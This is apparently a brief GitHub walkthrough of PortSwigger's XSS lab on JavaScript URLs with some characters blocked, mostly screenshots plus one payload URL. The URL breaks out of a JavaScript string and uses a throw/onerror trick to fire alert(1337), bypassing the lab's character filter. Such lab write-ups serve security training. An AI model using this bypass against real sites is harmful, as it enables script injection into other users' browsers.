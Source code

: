 ## Welcome, my friend. Today we will start the [23. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/411bc57a-9212-4643-9db4-8de96ba867ac)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/99246c4a-7080-4e21-99db-874dcd099e31)




Ok, We will inject javascript code inside URL such as:

```
https://0a3a007404bb215c80394433009400b1.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

![Screenshot from 2024-08-11 02-54-43](https://github.com/user-attachments/assets/93bcf978-87cf-4120-b4be-d276b0668639)

![image](https://github.com/user-attachments/assets/107395fe-7282-4783-9733-7621cc7a35e7)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/15a03813-a959-4628-9018-708548137ba0" >
</p>
